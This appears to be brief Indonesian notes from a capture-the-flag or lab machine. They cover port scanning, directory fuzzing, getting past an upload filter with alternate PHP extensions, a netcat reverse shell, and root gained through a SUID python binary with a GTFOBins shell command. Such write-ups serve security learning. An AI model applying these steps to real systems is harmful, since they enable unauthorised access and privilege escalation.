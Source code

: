1. scan nmap 80 22 kebuka -> fuzz /panel ada
2. test upload manip ekstensi pakai burp gabisa -> ekstensi .php#.png juga gabisa -> .php langsung gabisa
3. tes pakai .php3 - 8 .phps .phtml dll dll -> nc revshellnya
4. masuk shell di /home /opt gada apa apa ->  find / -perm -u=s 2>/dev/null -> python sus cari di gtfo
5. cari yg suid -> install -m =xs $(which python) . -> python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
6. inget jangan ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")' -> soalnya gitu gabisa
7. dah klaim root
